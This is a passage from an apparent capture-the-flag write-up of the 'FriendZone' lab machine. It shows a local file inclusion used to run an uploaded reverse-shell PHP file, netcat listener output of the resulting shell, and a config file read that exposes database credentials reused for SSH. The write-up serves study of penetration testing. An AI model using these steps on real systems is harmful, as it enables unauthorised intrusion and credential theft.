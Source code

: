 So we got an absolute path, a LFI vector AND a write permission. If we visit /etc/Development/test (there is test.php which only executes echo "Please subscribe")

![lfi3](../contentImages/friendzone/lfi3.png)

We can indeed see that test.php is being executed.


Now, everything combined:
```
┌──(hosan㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.14] from (UNKNOWN) [10.10.10.123] 57610
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 23:21:26 up  1:43,  0 users,  load average: 0.00, 0.00, 0.75
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
I got a revshell. So there was only three steps:
1. Modify rev.php and upload it 
2. Open port to listen incoming connection
3. Visit our rev.php with LFI vector : pagename=/etc/Development/rev 

## 4. Privilege Escalation 

Even if www-data already gives us the user flag, I found a credential of the user friend:
```
$ cd /var/www
$ ls
admin
friendzone
friendzoneportal
friendzoneportaladmin
html
mysql_data.conf
uploads
$ cat mysql_data.conf     
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

And I could use it for ssh connection.

### 4.1 pspy
